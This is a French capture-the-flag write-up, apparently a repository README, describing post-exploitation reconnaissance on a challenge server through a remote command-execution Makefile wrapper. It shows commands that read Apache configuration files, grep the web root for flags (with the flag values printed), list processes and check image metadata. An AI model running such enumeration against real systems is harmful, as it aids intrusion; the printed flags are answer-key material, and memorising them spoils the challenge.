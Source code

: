 l'idée est maintenant de récupérer le plus d'informations sur le contenu de la machine avec le user qui nous permets d'exécuter du code.

Je commence par l'écriture d'un makefile pour industrialiser le bouzin. voir [Makefile](./Makefile).
Pas besoin d'ouvrir un reverse-shell et encore moins de metasploit : rien que du très basique.

Vous verrez que je download / tee systèmatiquement les sorties de mes commandes : l'idée est de ne pas avoir à rejouer la commande 2 jours plus tard pour retrouver un indice : on doit pouvoir faire l'analyse de ce que l'on scrape hors ligne et tranquillou sans avoir de connexion avec la victime.

### récupérer la conf apache2
```sh
make run CMD="cat /etc/apache2/apache2.conf" | tee -a etc-apache2.txt
```

en explorant l'arborescence on trouve la définition des autres sites, notamment le site du challenge 7.

```sh
make run CMD="cat /etc/apache2/sites-enabled/challenge7.conf"
```

### tentative brutale de trouver d'autres flags
```sh
make run CMD="find /var/www -name="*.txt" -exec grep FLAG {} +"

/var/www/flag.txt:FLAG3{07993337ce7f0273a65ba0db8ee9b24623da7e1e}
/var/www/challenge10/flag.txt:FLAG10{b2ece9353bac8fdda4fd579e19622607059cdec8}
/var/www/challenge7/compliance/flag.txt:FLAG8{99e9c842544a1aa4f6886c89a47f1b7d3e8feb51}
/var/www/challenge7/welcome.php:    <p>FLAG7{ca6f82334977c7ab3892c8d0e6e1ce821ba6398b}</p>
```

et ca dépile !

tant qu'à faire, parce que ca parait prometteur, on récupére de la conf apache
```sh
make run CMD="find /etc/apache2/ -name '*' -exec cat {} +" | tee etc-apache2.txt
```

voir [etc-apache2.txt](./etc-apache2.txt)

on voit que le site en 443 est down parce que mal configuré. a priori plus rien à gratter pour le port 443.

on y trouve aussi la liste des mod apache activés qui peuvent être vulnérable (spoiler je pense qu'il n'y en a pas).

### récupération des images analyses metadata

avec `exiv2` : aucune métadata dans les images de uploads

*note de moi-même plus tard :* je ne sais pas pourquoi j'ai pas pensé à la stégano en plus ... peut-être parce que c'est pas du hacking ? :D

voir [09-la_merde_a_fred](../09-la_merde_a_fred/) pour en savoir plus.

### récupération de la liste des process
```sh
make run CMD="ps aux" | tee -a all-processes.txt
```
